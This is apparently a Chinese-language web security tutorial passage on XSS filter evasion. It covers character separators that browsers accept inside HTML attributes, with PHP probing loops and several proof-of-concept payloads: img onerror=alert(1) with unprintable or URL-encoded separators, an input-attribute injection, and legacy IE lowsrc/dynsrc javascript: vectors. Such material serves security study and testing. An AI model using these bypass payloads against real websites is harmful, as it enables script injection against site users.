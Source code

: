 ```
<?php
for($i = 1; $i <= 255; $i++) {
    $character = chr($i);
    echo '<div><font size='. $character. '20'. $character. '>'.$i.' </font></div>';
} ?> 
```

上面代码可以直观的看出当前浏览器支持的分隔符有哪些字符。

上面代码 size 属性如果输入的是字符的话，会顺利执行，所以当$character 中循环到数字的时候也会顺利解析，但这并非是把数字当成了分割符：

```
<?php
for($i = 20; $i <= 255; $i++) {
    $character = html_entity_decode('&#'.$i.';', ENT_QUOTES, 'UTF-8');
    echo '<div><img title="'.$i.'" src='.$character. 'http://www.google.com/intl/en_ALL/images/logo.gif'. $character. '></div>'; 
} ?> 
```

以上代码可以看出，属性为字符串的时候，可以作为分隔符的字符。

为了表示那些不可打印的字符，就用`\x 十六进制`来表示：

```
<img src=\x17\x17 onerror=alert(1)//> 
```

以上代码\x17 即表示不可打印字符 chr(23)，浏览器提交的时候可以输入%3Cimg%20src%3D%17%17%20onerror%3Dalert%281%29%2f%2f%3E。

在 src 中可以正常工作的分隔字符，在处理事件的属性里不一定会工作，例如 onerror。

但是仍然有一些字符可以达到我们的目的，ASCII 表中的 133 和 160 已经 IE 中的空字符，甚至是分号。

```
<img/\%20src=%17y%17 onerror=%C2%A0alert(1)//> 
```

以上代码 urldecode 之后在 chrome 中可以顺利执行。

下面讨论多个标签的问题，比如用户可控的数据插入到了`<input>`标签中，同时过滤了`<>`只能插入标签内数据：

```
<input value="" type=image src=1 onerror=alert(1)//" type="hidden" name="foo" /> 
```

绿色部分是我们插入的数据，又插入了一个 type 属性，但是浏览器执行了 alert()，浏览器实际上会执行第一个属性，后面的会忽略掉。

在 IE 中还有一个 lowsrc 的属性，跟 src 类似，原本是为了方便调用一个缩略图的，但是在 IE6 和 IE7 中，同时也支持伪协议 javascript:，还有一个 dynsrc 属性也类似：

```
<img lowsrc=1 onerror=alert(1)> // 所有 IE 都支持
<img lowsrc=javascript:alert(2)> //IE6 和 IE7 支持
<img src="http://www.google.de/intl/de_de/images/logo.gif" dynsrc="javascript:alert(3)" /> // 只有 IE6 支持 
```

sytle 属性中还可以定义非常多的参数：

```
<span style="color:red" style="color:green;background:yellow"> foobar</span> 
```
